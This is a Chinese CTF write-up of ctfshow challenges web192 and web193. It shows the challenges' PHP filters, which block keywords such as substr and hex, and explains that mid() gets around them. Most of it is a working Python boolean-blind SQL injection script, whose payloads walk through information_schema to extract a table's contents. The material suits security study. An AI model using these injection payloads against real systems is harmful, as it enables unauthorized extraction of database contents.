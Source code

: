 ## web192 过滤 ord hex

又增加了 过滤

```php
  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

好像对我这个没啥影响 继续打就行了

## web193 过滤 substr

```php
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

过滤了 substr 可以使用mid代替

```cobol
import requests
 
url = "http://5cfc18ff-19cb-48d1-942e-bc8c1c930634.challenge.ctf.show/api/"
 
# payload = "admin' and if(mid((select database()),{0},1)>'{1}',0,1)-- +"
# payload = "admin' and if(mid((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1)>'{1}',0,1)-- +"
# payload = "admin' and if(mid((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flxg'),{0},1)>'{1}',0,1)-- +"
payload = "admin' and if(mid((select group_concat(id,'---',f1ag)from ctfshow_flxg),{0},1)>'{1}',0,1)-- +"
flag =''
for i in range(1,100):
    high = 128
    low =32
    mid = (high+low)//2
    while(high>low):
        payload1= payload.format(i,chr(mid))
        # print(payload1)
        data ={
            'username':payload1,
            'password':0
        }
        re = requests.post(url =url ,data = data)
        # print(re.text)
        if r"\u7528\u6237\u540d\u4e0d\u5b58\u5728"  in re.text:
            low = mid + 1
        else:
            high = mid
        mid = (high+low)//2
        if chr(mid)== " ":
            break
    flag+=chr(mid)
    # print(flag.lower().replace('{','_'))
    print(flag.lower())
    if chr(mid) == "}":
        exit()
```
